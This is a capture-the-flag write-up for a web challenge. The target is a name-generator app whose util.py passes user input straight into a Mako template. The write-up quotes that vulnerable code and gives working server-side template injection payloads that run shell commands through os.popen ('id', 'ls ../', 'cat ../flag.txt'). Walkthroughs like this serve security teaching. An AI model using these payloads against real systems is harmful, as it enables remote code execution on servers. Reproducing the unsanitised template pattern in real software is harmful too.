


> ❓ There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

---

This application reflects input that is entered into the text box and outputs the text in a custom font, although this application is susceptible to SSTI (Server Side Template Injection). Let's take a look at the source code to understand why this application is vulnerable.



## Understanding the Vulnerability

After conducting a code review, I came across `util.py`, this script uses the [Mako](<https://en.wikipedia.org/wiki/Mako_(template_engine)>) templating library to render the results of the user input.

```py
from mako.template import Template

def generate_render(converted_fonts):
    result = '''
        <tr>
            <td>{0}</td>
        </tr>

        <tr>
            <td>{1}</td>
        </tr>

        <tr>
            <td>{2}</td>
        </tr>

        <tr>
            <td>{3}</td>
        </tr>
    '''.format(*converted_fonts)

    return Template(result).render()
```

### Why It's Vulnerable

1. The function **`generate_render()`** takes user-controlled input (`converted_fonts`) and directly injects it into a **Mako template** without sanitization.
2. **Mako templates execute Python expressions** inside `${}` automatically.
3. If an attacker provides a payload like `${__import__('os').popen('id').read()}`, the template engine **executes it on the server**.

---

## Exploiting Mako SSTI for Code Execution

### Step 1: Testing for SSTI

To confirm an SSTI vulnerability, an attacker might test simple expressions:

```txt
${7*7}
```

If the page outputs `49`, it indicates that user input is being processed by the template engine.

---

### Step 2: The payload

This payload uses:

- `os.popen(command).read()`
  - Executes the **given shell command**.
  - Captures and returns the output.
- `ls ../`
  - Lists **all files and directories** in the **parent directory (`../`)**.
  - This allows an attacker to **enumerate files outside the current working directory**.

```py
${__import__('os').popen('ls ../').read()}
```

---

## The Flag

At this point you can use the same payload to execute the command `cat ../flag.txt` to obtain the flag!


